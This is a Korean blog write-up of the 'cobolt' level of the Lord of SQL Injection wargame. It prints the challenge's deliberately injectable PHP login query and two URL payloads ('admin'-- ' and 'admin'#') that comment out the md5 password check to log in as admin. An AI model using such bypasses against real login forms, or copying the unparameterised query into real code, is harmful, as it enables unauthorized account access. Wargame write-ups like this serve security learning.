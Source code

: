 ```yaml
---
title: "[Lord of SQL Injection] LoS - cobolt 문제풀이"
date: 2018-07-21
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


두 번째 문제는 `cobolt`이다.
모든 문제의 이름이 괴물(?) 몬스터(?)의 이름인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_cobolt where id='' and pw=md5('')
----------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

이번에는 `pw`를 쿼리에 넣을 때 `md5`로 해싱을 한다.
때문에 이 전 문제처럼 pw에 인젝션을 해 문제를 풀 수 없다.
문제를 풀기위한 조건도 좀 달라졌다.  

```php
if($result['id'] == 'admin') solve("cobolt");
```

즉, 쿼리 결과로 나온 `id`가 `admin`이어야 문제를 풀 수 있다.
어떻게 할 지 고민하다가 `pw` 검증 루틴을 아예 무시하도록 하는 방법을 사용했다.
나는 주석을 사용했는데, 주석은 `#`이나 `--`를 사용한다.
이 때, `--`를 사용할 때는 뒤에 꼭 공백이 있어야 한다.
따라서 다음과 같은 두 가지 방법으로 문제를 풀 수 있다.  

```plain
1. ?id=admin'--%20
2. ?id=admin'%23
```

공백과 #은 `URL Encoding`을 해서 넘겨주어야 한다.
역시 이번에도 문제가 풀렸다.  

```php
--------------------------------------------------------------------------------------------
query : select id from prob_cobolt where id='admin'#' and pw=md5('')
--------------------------------------------------------------------------------------------

COBOLT Clear!
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

---

```plain
COBOLT Clear!!
```
